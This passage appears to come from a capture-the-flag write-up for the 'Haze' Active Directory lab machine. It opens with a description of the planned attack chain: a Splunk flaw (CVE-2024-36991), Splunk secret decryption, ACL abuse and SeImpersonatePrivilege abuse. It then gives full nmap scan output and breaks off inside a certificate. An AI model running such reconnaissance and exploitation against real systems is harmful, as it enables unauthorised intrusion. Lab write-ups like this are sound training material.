






# Description

Haze is a challenging Active Directory machine characterized by vulnerable Splunk installation and security configurations. The machine involves CVE-2024-36991, decrypting Splunk secret, exploiting multiple ACL/ACE vulnerabilities, and abusing SeImpersonatePrivilege.

# Recon

## nmap

`nmap` shows open ports that are common on a Domain Controller machine and with extra ports : `8000`, `8088`, and `8089`.

```bash
# Nmap 7.95 scan initiated Sun Mar 30 12:00:16 2025 as: nmap -vvv -p- -T4 -sSCV -oN all_tcp_scan.txt 10.10.11.61
Nmap scan report for 10.10.11.61 (10.10.11.61)
Host is up, received echo-reply ttl 127 (0.037s latency).
Scanned at 2025-03-30 12:00:16 WIB for 106s
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-03-30 12:42:16Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Issuer: commonName=haze-DC01-CA/domainComponent=haze
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:12:20
| Not valid after:  2026-03-05T07:12:20
| MD5:   db18:a1f5:986c:1470:b848:35ec:d437:1ca0
| SHA-1: 6cdd:5696:f250:6feb:1a27:abdf:d470:5143:3ab8:5d1f
| -----BEGIN CERTIFICATE-----
| MIIFxzCCBK+gAwIBAgITaQAAAAKwulKDkCsWNAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBCMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEaGF6ZTEV
| MBMGA1UEAxMMaGF6ZS1EQzAxLUNBMB4XDTI1MDMwNTA3MTIyMFoXDTI2MDMwNTA3
| MTIyMFowGDEWMBQGA1UEAxMNZGMwMS5oYXplLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMVEY8/MHbIODtBJbIisSbPresil0O6vCchYn7gAIg90
| kJVVmM/KnsY8tnT6jMRGWQ/cJPpXQ/3jFFK1l40iDHxa5zfWLz+RS/ZRwkQH9/UK
| biVcpiAkxgDsvBpqVk5AQiSPo3cOkiFAAS31jjfUJk6YP9Cb5q1dJTlo39TlTnyZ
| h794W7ykOJTKLLflQ1gY5xtbrc3XltNGnKTh28fjX7GtDfqtAq3tT5jU7pt9kKfu
| 0PdFjwM0IHjvxfMvQQD3kZnwIxMFCPNgS5T1xO86UnrWw0kVvWp1gOMA7lU5YZr7
| u81y2pV734gwCnZzWOe0xZrvUzFgIHtGmfj505znnf0CAwEAAaOCAt4wggLaMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFCjRdOU7YKvR8L/epppe
| wGlE7zYrMB8GA1UdIwQYMBaAFBfPKa3j+shDCWYQcAiLgjtywmU+MIHEBgNVHR8E
| gbwwgbkwgbaggbOggbCGga1sZGFwOi8vL0NOPWhhemUtREMwMS1DQSxDTj1kYzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPWhhemUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2Nh
| dGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCB
| uwYIKwYBBQUHAQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj1oYXpl
| LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aGF6ZSxEQz1odGI/Y0FDZXJ0aWZp
| Y2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwOQYD
| VR0RBDIwMKAfBgkrBgEEAYI3GQGgEgQQ3PAm6jow6ke+SMbceyLBfYINZGMwMS5o
| YXplLmh0YjANBgkqhkiG9w0BAQsFAAOCAQEAO7h/k9EY8RlqV48OvhS9nUZtGI7e
| 9Dqja1DpS+H33Z6CYb537w7eOkIWZXNP45VxPpXai8IzPubc6rVHKMBq4DNuN+Nu
| BjOvbQ1J4l4LvfB1Pj/W2nv6VGb/6/iDb4ul6UdHK3/JMIKM3UIbpWVgmNIx70ae
| /0JJP2aG3z2jhO5co4ncUQ/xpe3WlWGTl9qcJ+FkZZAPkZU6+fgz/McKxO9I7EHv
| Y7G19nhuwF6Rh+w2XYrJs2/iFU6pRgQPg3yon5yUzcHNX8GwyEikv0NGBkmMKwAI
| kE3gssbluZx+QYPdAE4pV1k5tbg/kLvBePIXVKspHDd+4Wg0w+/6ivkuhQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Issuer: commonName=haze-DC01-CA/domainComponent=haze
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:12:20
| Not valid after:  2026-03-05T07:12:20
| MD5:   db18:a1f5:986c:1470:b848:35ec:d437:1ca0
| SHA-1: 6cdd:5696:f250:6feb:1a27:abdf:d470:5143:3ab8:5d1f
| -----BEGIN CERTIFICATE-----
| MIIFxzCCBK+gAwIBAgITaQAAAAKwulKDkCsWNAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBCMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEaGF6ZTEV
| MBMGA1UEAxMMaGF6ZS1EQzAxLUNBMB4XDTI1MDMwNTA3MTIyMFoXDTI2MDMwNTA3
| MTIyMFowGDEWMBQGA1UEAxMNZGMwMS5oYXplLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMVEY8/MHbIODtBJbIisSbPresil0O6vCchYn7gAIg90
| kJVVmM/KnsY8tnT6jMRGWQ/cJPpXQ/3jFFK1l40iDHxa5zfWLz+RS/ZRwkQH9/UK
| biVcpiAkxgDsvBpqVk5AQiSPo3cOkiFAAS31jjfUJk6YP9Cb5q1dJTlo39TlTnyZ
| h794W7ykOJTKLLflQ1gY5xtbrc3XltNGnKTh28fjX7GtDfqtAq3tT5jU7pt9kKfu
| 0PdFjwM0IHjvxfMvQQD3kZnwIxMFCPNgS5T1xO86UnrWw0kVvWp1gOMA7lU5YZr7
| u81y2pV734gwCnZzWOe0xZrvUzFgIHtGmfj505znnf0CAwEAAaOCAt4wggLaMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFCjRdOU7YKvR8L/epppe
| wGlE7zYrMB8GA1UdIwQYMBaAFBfPKa3j+shDCWYQcAiLgjtywmU+MIHEBgNVHR8E
| gbwwgbkwgbaggbOggbCGga1sZGFwOi8vL0NOPWhhemUtREMwMS1DQSxDTj1kYzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPWhhemUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2Nh
| dGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCB
| uwYIKwYBBQUHAQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj1oYXpl
| LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aGF6ZSxEQz1odGI/Y0FDZXJ0aWZp
| Y2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwOQYD
| VR0RBDIwMKAfBgkrBgEEAYI3GQGgEgQQ3PAm6jow6ke+SMbceyLBfYINZGMwMS5o
| YXplLmh0YjANBgkqhkiG9w0BAQsFAAOCAQEAO7h/k9EY8RlqV48OvhS9nUZtGI7e
| 9Dqja1DpS+H33Z6CYb537w7eOkIWZXNP45VxPpXai8IzPubc6rVHKMBq4DNuN+Nu
| BjOvbQ1J4l4LvfB1Pj/W2nv6VGb/6/iDb4ul6UdHK3/JMIKM3UIbpWVgmNIx70ae
| /0JJP2aG3z2jhO5co4ncUQ/xpe3WlWGTl9qcJ+FkZZAPkZU6+fgz/McKxO9I7EHv
| Y7G19nhuwF6Rh+w2XYrJs2/iFU6pRgQPg3yon5yUzcHNX8GwyEikv0NGBkmMKwAI
| kE3gssbluZx+QYPdAE4pV1k5tbg/kLvBePIXVKspHDd+4Wg0w+/6ivkuhQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Issuer: commonName=haze-DC01-CA/domainComponent=haze
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:12:20
| Not valid after:  2026-03-05T07:12:20
| MD5:   db18:a1f5:986c:1470:b848:35ec:d437:1ca0
| SHA-1: 6cdd:5696:f250:6feb:1a27:abdf:d470:5143:3ab8:5d1f
| -----BEGIN CERTIFICATE-----
| MIIFxzCCBK+gAwIBAgITaQAAAAKwulKDkCsWNAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBCMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEaGF6ZTEV
| MBMGA1UEAxMMaGF6ZS1EQzAxLUNBMB4XDTI1MDMwNTA3MTIyMFoXDTI2MDMwNTA3
| MTIyMFowGDEWMBQGA1UEAxMNZGMwMS5oYXplLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMVEY8/MHbIODtBJbIisSbPresil0O6vCchYn7gAIg90
| kJVVmM/KnsY8tnT6jMRGWQ/cJPpXQ/3jFFK1l40iDHxa5zfWLz+RS/ZRwkQH9/UK
| biVcpiAkxgDsvBpqVk5AQiSPo3cOkiFAAS31jjfUJk6YP9Cb5q1dJTlo39TlTnyZ
| h794W7ykOJTKLLflQ1gY5xtbrc3XltNGnKTh28fjX7GtDfqtAq3tT5jU7pt9kKfu
| 0PdFjwM0IHjvxfMvQQD3kZnwIxMFCPNgS5T1xO86UnrWw0kVvWp1gOMA7lU5YZr7
| u81y2pV734gwCnZzWOe0xZrvUzFgIHtGmfj505znnf0CAwEAAaOCAt4wggLaMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFCjRdOU7YKvR8L/epppe
| wGlE7zYrMB8GA1UdIwQYMBaAFBfPKa3j+shDCWYQcAiLgjtywmU+MIHEBgNVHR8E
| gbwwgbkwgbaggbOggbCGga1sZGFwOi8vL0NOPWhhemUtREMwMS1DQSxDTj1kYzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPWhhemUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2Nh
| dGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCB
| uwYIKwYBBQUHAQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj1oYXpl
| LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aGF6ZSxEQz1odGI/Y0FDZXJ0aWZp
| Y2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwOQYD
| VR0RBDIwMKAfBgkrBgEEAYI3GQGgEgQQ3PAm6jow6ke+SMbceyLBfYINZGMwMS5o
| YXplLmh0YjANBgkqhkiG9w0BAQsFAAOCAQEAO7h/k9EY8RlqV48OvhS9nUZtGI7e
| 9Dqja1DpS+H33Z6CYb537w7eOkIWZXNP45VxPpXai8IzPubc6rVHKMBq4DNuN+Nu
| BjOvbQ1J4l4LvfB1Pj/W2nv6VGb/6/iDb4ul6UdHK3/JMIKM3UIbpWVgmNIx70ae
| /0JJP2aG3z2jhO5co4ncUQ/xpe3WlWGTl9qcJ+FkZZAPkZU6+fgz/McKxO9I7EHv
| Y7G19nhuwF6Rh+w2XYrJs2/iFU6pRgQPg3yon5yUzcHNX8GwyEikv0NGBkmMKwAI
| kE3gssbluZx+QYPdAE4pV1k5tbg/kLvBePIXVKspHDd+4Wg0w+/6ivkuhQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Issuer: commonName=haze-DC01-CA/domainComponent=haze
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:12:20
| Not valid after:  2026-03-05T07:12:20
| MD5:   db18:a1f5:986c:1470:b848:35ec:d437:1ca0
| SHA-1: 6cdd:5696:f250:6feb:1a27:abdf:d470:5143:3ab8:5d1f
| -----BEGIN CERTIFICATE-----
| MIIFxzCCBK+gAwIBAgITaQAAAAKwulKDkCsWNAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBCMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEaGF6ZTEV
| MBMGA1UEAxMMaGF6ZS1EQzAxLUNBMB4XDTI1MDMwNTA3MTIyMFoXDTI2MDMwNTA3
| MTIyMFowGDEWMBQGA1UEAxMNZGMwMS5oYXplLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMVEY8/MHbIODtBJbIisSbPresil0O6vCchYn7gAIg90
| kJVVmM/KnsY8tnT6jMRGWQ/cJPpXQ/3jFFK1l40iDHxa5zfWLz+RS/ZRwkQH9/UK
| biVcpiAkxgDsvBpqVk5AQiSPo3cOkiFAAS31jjfUJk6YP9Cb5q1dJTlo39TlTnyZ
| h794W7ykOJTKLLflQ1gY5xtbrc3XltNGnKTh28fjX7GtDfqtAq3tT5jU7pt9kKfu
| 0PdFjwM0IHjvxfMvQQD3kZnwIxMFCPNgS5T1xO86UnrWw0kVvWp1gOMA7lU5YZr7
| u81y2pV734gwCnZzWOe0xZrvUzFgIHtGmfj505znnf0CAwEAAaOCAt4wggLaMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFCjRdOU7YKvR8L/epppe
| wGlE7zYrMB8GA1UdIwQYMBaAFBfPKa3j+shDCWYQcAiLgjtywmU+MIHEBgNVHR8E
| gbwwgbkwgbaggbOggbCGga1sZGFwOi8vL0NOPWhhemUtREMwMS1DQSxDTj1kYzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPWhhemUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2Nh
| dGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCB
| uwYIKwYBBQUHAQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj1oYXpl
| LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aGF6ZSxEQz1odGI/Y0FDZXJ0aWZp
| Y2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwOQYD
| VR0RBDIwMKAfBgkrBgEEAYI3GQGgEgQQ3PAm6jow6ke+SMbceyLBfYINZGMwMS5o
| YXplLmh0YjANBgkqhkiG9w0BAQsFAAOCAQEAO7h/k9EY8RlqV48OvhS9nUZtGI7e
| 9Dqja1DpS+H33Z6CYb537w7eOkIWZXNP45VxPpXai8IzPubc6rVHKMBq4DNuN+Nu
| BjOvbQ1J4l4LvfB1Pj/W2nv6VGb/6/iDb4ul6UdHK3/JMIKM3UIbpWVgmNIx70ae
| /0JJP2aG3z2jhO5co4ncUQ/xpe3WlWGTl9qcJ+FkZZAPkZU6+fgz/McKxO9I7EHv
| Y7G19nhuwF6Rh+w2XYrJs2/iFU6pRgQPg3yon5yUzcHNX8GwyEikv0NGBkmMKwAI
| kE3gssbluZx+QYPdAE4pV1k5tbg/kLvBePIXVKspHDd+4Wg0w+/6ivkuhQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open  http          syn-ack ttl 127 Splunkd httpd
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.10.11.61:8000/en-US/account/login?return_to=%2Fen-US%2F
|_http-favicon: Unknown favicon MD5: E60C968E8FF3CC2F4FB869588E83AFC6
|_http-server-header: Splunkd
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
8088/tcp  open  ssl/http      syn-ack ttl 127 Splunkd httpd
|_http-server-header: Splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:29:08
| Not valid after:  2028-03-04T07:29:08
| MD5:   82e5:ba5a:c723:2f49:6f67:395b:5e64:ed9b
| SHA-1: e859:76a6:03da:feef:c1ab:9acf:ecc7:fd75:f1e5:1ab2
| -----BEGIN CERTIFICATE-----
| MIIDMjCCAhoCCQCtNoIdTvT1CjANBgkqhkiG9w0BAQsFADB/MQswCQYDVQQGEwJV
| UzELMAkGA1UECAwCQ0ExFjAUBgNVBAcMDVNhbiBGcmFuY2lzY28xDzANBgNVBAoM
| BlNwbHVuazEXMBUGA1UEAwwOU3BsdW5rQ29tbW9uQ0ExITAfBgkqhkiG9w0BCQEW
| EnN1cHBvcnRAc3BsdW5rLmNvbTAeFw0yNTAzMDUwNzI5MDhaFw0yODAzMDQwNzI5
| MDhaMDcxIDAeBgNVBAMMF1NwbHVua1NlcnZlckRlZmF1bHRDZXJ0MRMwEQYDVQQK
| DApTcGx1bmtVc2VyMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3SOu
| w9/K07cQT0p+ga9FjWCzI0Os/MVwpjOlPQ/o1uA/VSoNiweXobD3VBLngqfGQlAD
